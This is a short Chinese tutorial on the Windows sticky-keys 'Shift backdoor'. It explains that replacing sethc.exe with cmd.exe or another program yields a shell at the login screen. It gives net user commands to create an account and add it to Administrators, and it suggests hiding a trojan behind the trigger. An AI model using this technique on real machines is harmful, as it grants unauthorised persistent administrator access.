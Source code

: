#Shift Backdoor  

###0x00 shift后门的存在  

（本文中的内容测试环境为 windows xp sp3）  
在windows系统下，默认是打开粘连键的，就是连续点击5次 shift 键弹出来的框：  

<img src="./Images/image1.png" width="400">  

这样的一个东东，这个东西存放在： xp 环境下 `C:\WINDOWS\system32\sethc.exe`  windows7 环境下 `C:\WINDOWS\system32\setchx.exe`  

由这个文件可以用任意文件替换，再点击5次 shift 来触发，就可以打开替换后的文件了，除此之外，粘连键在 windows 的登录界面也是可以触发的，所以通过 explore.exe 替换就可以打开我的电脑了，哈哈。。。。。。。。。。
 

###0x01 shift后门的利用  
__替换成 cmd.exe 后在登录界面触发的效果__  
（cmd.exe 在  `C:\WINDOWS\system32\cmd.exe` ）  

<img src="./Images/image2.png" width="350">  

既然还没登陆系统都拿到 shell 了，那就可以为自己建一个用户再登陆了：   
新建用户：  `net user test pwd /add`  
提升为管理员:   `net localgroup Administrators test /add`  
激活用户：    `net user test /active:yes`  

(PS:以上操作可能会被防火墙拦截)


__替换成 explore.exe 后在登陆界面触发的效果__  

<img src="./Images/image3.png" width="350">  


__替换成任意执行文件__  
替换后只需要点5次 shift 后就可以触发执行你放上去的文件了。可以放个木马了，通过shift触发。  





</br></br>

-------------------------------------------  
参考资料：  


</br>
Time: 2016.10